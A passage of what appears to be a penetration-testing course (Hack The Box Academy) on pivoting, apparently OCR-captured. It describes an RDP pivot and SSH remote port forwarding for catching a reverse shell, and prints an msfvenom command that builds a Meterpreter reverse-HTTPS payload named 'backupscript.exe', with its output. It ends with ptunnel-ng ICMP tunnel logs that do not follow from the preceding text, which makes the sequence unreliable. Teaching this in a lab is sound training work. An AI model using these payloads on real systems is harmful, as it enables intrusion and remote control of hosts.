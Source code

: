 The xfreerdp command will require an RDP certificate to be accepted before successfully establishing the session. After accepting it, we should have an RDP session, pivoting via the Ubuntu server.

#### Successful RDP Pivot

![RDP Pivot](https://academy.hackthebox.com/storage/modules/158/proxychaining.png)

* * *

Note: When spawning your target, we ask you to wait for 3 - 5 minutes until the whole lab with all the configurations is set up so that the connection to your target works flawlessly.


# Remote/Reverse Port Forwarding with SSH

* * *

We have seen local port forwarding, where SSH can listen on our local host and forward a service on the remote host to our port, and dynamic port forwarding, where we can send packets to a remote network via a pivot host. But sometimes, we might want to forward a local service to the remote port as well. Let's consider the scenario where we can RDP into the Windows host `Windows A`. As can be seen in the image below, in our previous case, we could pivot into the Windows host via the Ubuntu server.

![](https://academy.hackthebox.com/storage/modules/158/33.png)

`But what happens if we try to gain a reverse shell?`

The `outgoing connection` for the Windows host is only limited to the `172.16.5.0/23` network. This is because the Windows host does not have any direct connection with the network the attack host is on. If we start a Metasploit listener on our attack host and try to get a reverse shell, we won't be able to get a direct connection here because the Windows server doesn't know how to route traffic leaving its network (172.16.5.0/23) to reach the 10.129.x.x (the Academy Lab network).

There are several times during a penetration testing engagement when having just a remote desktop connection is not feasible. You might want to `upload`/ `download` files (when the RDP clipboard is disabled), `use exploits` or `low-level Windows API` using a Meterpreter session to perform enumeration on the Windows host, which is not possible using the built-in [Windows executables](https://lolbas-project.github.io/).

In these cases, we would have to find a pivot host, which is a common connection point between our attack host and the Windows server. In our case, our pivot host would be the Ubuntu server since it can connect to both: `our attack host` and `the Windows target`. To gain a `Meterpreter shell` on Windows, we will create a Meterpreter HTTPS payload using `msfvenom`, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address ( `172.16.5.129`). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.

#### Creating a Windows Payload with msfvenom

```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe

```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%